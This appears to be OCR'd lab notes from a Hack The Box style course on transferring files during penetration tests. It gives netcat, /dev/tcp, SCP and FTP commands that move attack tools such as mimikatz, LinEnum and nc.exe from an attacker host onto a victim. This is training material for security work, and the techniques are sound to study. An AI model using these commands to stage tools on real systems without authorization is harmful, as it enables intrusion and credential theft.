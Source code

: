 ##
Waheed Nusrat@htb[/htb]$ nc -nv 10.10.10.32 8000 > mimikatz.exe
##

##
victim@target:~$ nc -nlvp 8000 <mimikatz.exe
##

Netcat can also serve content for transfer by the /dev/tcp device file.

Start Netcat Listener
---------------------

##
Waheed Nusrat@htb[/htb]$ nc -lvnp 80 <LinEnum.sh
##

Download The File
-----------------

##
victim@target:~$ cat < /dev/tcp/10.10.10.32/80 > LinEnum.sh
##

SCP
---

The OpenSSH client is available by default on Linux and has been included in Windows 10 and Windows Server 2019 since Autumn 2018. On Windows, the OpenSSH server can be enabled using this [procedure](https://docs.microsoft.com/en-us/windows-server/administration/openssh/openssh_install_firstuse). On older Windows systems, the PuTTY Secure Copy client (pscp.exe) can be used.

SCP Upload
----------

##
PS C:\htb> scp C:\Temp\bloodhound.zip user@10.10.10.150:/tmp/bloodhound.zip
##

SCP Download
------------

##
Waheed Nusrat@htb[/htb]$ scp user@target:/tmp/mimikatz.exe C:\Temp\mimikatz.exe
##

FTP
---

Windows 10 includes a native FTP client, which can also read commands from a script to work in a non-interactive shell.

Ftp-script.txt
--------------

##
open 10.10.10.32
anonymous
anonymous
lcd C:\Temp
get nc.exe
quit
##
